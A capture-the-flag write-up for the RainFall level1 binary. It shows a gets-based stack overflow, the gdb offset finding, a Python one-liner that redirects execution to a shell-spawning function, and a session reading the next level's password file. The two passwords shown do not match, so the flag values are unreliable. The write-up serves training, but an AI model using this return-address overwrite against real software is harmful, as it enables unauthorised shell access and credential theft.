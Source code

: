 # Level1

## Analysis

**In `main` :**

Just a `gets`

We also have a `run` function defined but never used
```
(gdb) info function
...
0x08048444  run
0x08048480  main
...
```

**In `run` :**

Open a shell with `level2` access

___

## Exploit

We need to access `run` by overwritting `eip` using the unprotected `gets` and overflowing the buffer

Getting eip offset using `offset.py`, which is `76`
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

(gdb) r
Starting program: /home/user/level1/level1
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()

 ❯ python3 offset.py 54
76
```

Now, we can just replace `eip` with `run` adress
```
level1@RainFall:~$ python -c 'print "\x90" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Let's keep stdin open
```
level1@RainFall:~$ python -c 'print "\x90" * 76 + "\x44\x84\x04\x08"' > /tmp/level1 && cat /tmp/level1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

___

*Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a*